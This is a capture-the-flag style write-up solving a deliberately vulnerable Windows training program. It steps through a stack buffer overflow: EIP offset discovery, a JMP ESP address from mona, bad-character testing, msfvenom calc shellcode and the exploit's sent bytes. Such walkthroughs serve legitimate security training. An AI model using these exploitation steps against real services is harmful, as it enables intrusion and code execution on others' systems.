




# Dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Solution
### 1. Set up exe in Windows VM
The IP address of the VM is 192.168.34.253.

Test out the program in Kali:
```bash
kali@kali:~$ nc 192.168.34.253 31337
test
Hello test!!!
test
Hello test!!!
test2
Hello test2!!!
exit
Bye!
```

### 2. Find EIP location
```bash
kali@kali:~$ python -c "from pwn import cyclic; print(cyclic(1000))" | nc 192.168.34.253 31337
```
Over on the debugger, it can be seen the application has crashed with an access violation on 0x616D6261.

Next, get the offset using this address.
```bash
kali@kali:~$ python -c "from pwn import cyclic_find; print(cyclic_find(0x616D6261))"
146
```

### 3. Find JMP ESP instruction
This can be done a number of ways. On Kali it can be done using objdump and grep. A common way of doing it these days is using Immunity Debugger's mona plugin which can search a for instructions in a debugged executable.  
Use `!mona modules` to ensure there is lacking protection on the binary being analysed.
```bash
0BADF00D   !mona modules

           ---------- Mona command started on 2020-11-09 17:24:27 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x70ee0000 | 0x70fc0000 | 0x000e0000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [ucrtbase.DLL] (C:\Windows\system32\ucrtbase.DLL)
0BADF00D    0x70e40000 | 0x70e44000 | 0x00004000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [api-ms-win-crt-convert-l1-1-0.dll] (C:\Windows\system32\api-ms-win-crt-convert-l1-1-0.dll)
0BADF00D    0x75440000 | 0x75515000 | 0x000d5000 | True   | True    | True  |  True    | True   | 6.1.7601.18015 [kernel32.dll] (C:\Windows\system32\kernel32.dll)
0BADF00D    0x76f30000 | 0x76fdc000 | 0x000ac000 | True   | True    | True  |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\system32\msvcrt.dll)
0BADF00D    0x08040000 | 0x08048000 | 0x00008000 | False  | True    | False |  False   | False  | -1.0- [dostackbufferoverflowgood.exe] (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
```
This shows that rebase and ASLR are false for the executable. Search for ffe4 (jmp esp) instructions with `!mona jmp -r esp -m dostackbufferoverflowgood.exe`:
```bash
0BADF00D   !mona jmp -r esp -m dostackbufferoverflowgood.exe

           ---------- Mona command started on 2020-11-09 17:39:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules dostackbufferoverflowgood.exe
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module dostackbufferoverflowgood.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D   [+] Results :
080414C3     0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
080416BF     0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
0BADF00D       Found a total of 2 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.154000
```
Add `0x080414c3` as jmp_esp.

### 4. Identify bad characters
Here is an array of bad characters that can be tried with the application.
```bash
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
The goal is to ensure any characters that stop this string being processed by the application are removed. This is an iterative process.
1. Send the entire string to the application
2. See if the entire string was copied into memory successfully by following ESP in dump
3. If not, remove the offending characters
4. Repeat.  
  

In this instance, there is 1 bad character, `0x0a`.

### 5. Generate some shellcode
```bash
kali@kali:~/Desktop/dostack$ msfvenom --arch x86 --platform windows -p windows/exec CMD=calc.exe -b '\x0a' -f python > shellcode.py
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
```
Add this to the final exploit. The exploit is structured like so:
```
[PADDING * 146] + [JMP ESP] + [32 BYTE NOPSLED] + [CALC SHELLCODE]
```

### 6. Exploit the application
```bash
kali@kali:~/Desktop/dostack$ python exploit.py 
[+] Opening connection to 192.168.34.253 on port 31337: Done
[DEBUG] Sent 0x193 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000090  41 41 c3 14  04 08 90 90  90 90 90 90  90 90 90 90  │AA··│····│····│····│
    000000a0  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    000000b0  90 90 90 90  90 90 b8 29  31 fd dc db  d8 d9 74 24  │····│···)│1···│··t$│
    000000c0  f4 5a 2b c9  b1 31 31 42  13 83 ea fc  03 42 26 d3  │·Z+·│·11B│····│·B&·│
    000000d0  08 20 d0 91  f3 d9 20 f6  7a 3c 11 36  18 34 01 86  │· ··│·· ·│z<·6│·4··│
    000000e0  6a 18 ad 6d  3e 89 26 03  97 be 8f ae  c1 f1 10 82  │j··m│>·&·│····│····│
    000000f0  32 93 92 d9  66 73 ab 11  7b 72 ec 4c  76 26 a5 1b  │2···│fs··│{r·L│v&··│
    00000100  25 d7 c2 56  f6 5c 98 77  7e 80 68 79  af 17 e3 20  │%··V│·\·w│~·hy│··· │
    00000110  6f 99 20 59  26 81 25 64  f0 3a 9d 12  03 eb ec db  │o· Y│&·%d│·:··│····│
    00000120  a8 d2 c1 29  b0 13 e5 d1  c7 6d 16 6f  d0 a9 65 ab  │···)│····│·m·o│··e·│
    00000130  55 2a cd 38  cd 96 ec ed  88 5d e2 5a  de 3a e6 5d  │U*·8│····│·]·Z│·:·]│
    00000140  33 31 12 d5  b2 96 93 ad  90 32 f8 76  b8 63 a4 d9  │31··│····│·2·v│·c··│
    00000150  c5 74 07 85  63 fe a5 d2  19 5d a3 25  af db 81 26  │·t··│c···│·]·%│···&│
    00000160  af e3 b5 4e  9e 68 5a 08  1f bb 1f e6  55 e6 09 6f  │···N│·hZ·│····│U··o│
    00000170  30 72 08 f2  c3 a8 4e 0b  40 59 2e e8  58 28 2b b4  │0r··│··N·│@Y.·│X(+·│
    00000180  de c0 41 a5  8a e6 f6 c6  9e 84 99 54  42 65 3c dd  │··A·│····│···T│Be<·│
    00000190  e1 79 0a                                            │·y·│
    00000193
[*] Closed connection to 192.168.34.253 port 31337
```
This pops a calculator on the Windows VM.
